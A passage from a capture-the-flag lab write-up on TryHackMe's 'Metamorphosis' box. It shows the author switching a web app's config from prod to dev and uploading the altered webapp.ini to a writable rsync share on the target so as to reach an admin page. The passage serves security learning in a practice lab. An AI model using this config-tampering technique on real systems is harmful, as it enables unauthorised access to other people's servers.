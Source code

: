 **Hmm... Can we modify the `env` key's value from `prod` to `dev`?**
```shell
[Web_App]
env = dev
user = tom
password = {Redacted}

[Details]
Local = No
```

**Then upload the modified `webapp.ini` via `rsync`:**
```shell
┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# rsync -av rsync_shared_Conf/webapp.ini rsync://$RHOSTS/Conf/webapp.ini
sending incremental file list
webapp.ini

┌──(root🌸siunam)-[~/ctf/thm/ctf/Metamorphosis]
└─# rsync -av --list-only rsync://$RHOSTS/Conf                                                         
receiving incremental file list
drwxrwxrwx          4,096 2023/01/11 01:49:38 .
-rw-r--r--          4,620 2021/04/09 16:01:22 access.conf
-rw-------              0 2023/01/11 01:40:40 anything
-rw-r--r--          1,341 2021/04/09 15:56:12 bluezone.ini
-rw-r--r--          2,969 2021/04/09 16:02:24 debconf.conf
-rw-r--r--            332 2021/04/09 16:01:38 ldap.conf
-rw-r--r--         94,404 2021/04/09 16:21:57 lvm.conf
-rw-r--r--          9,005 2021/04/09 15:58:40 mysql.ini
-rw-r--r--         70,207 2021/04/09 15:56:56 php.ini
-rw-r--r--            320 2021/04/09 16:03:16 ports.conf
-rw-r--r--            589 2021/04/09 16:01:07 resolv.conf
-rw-r--r--             29 2021/04/09 16:02:56 screen-cleanup.conf
-rw-r--r--          9,542 2021/04/09 16:00:59 smb.conf
-rw-rw-r--             71 2023/01/11 01:49:19 webapp.ini
```

**Now, we should able to gain access to the admin page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Metamorphosis/images/Pasted%20image%2020230111015332.png)
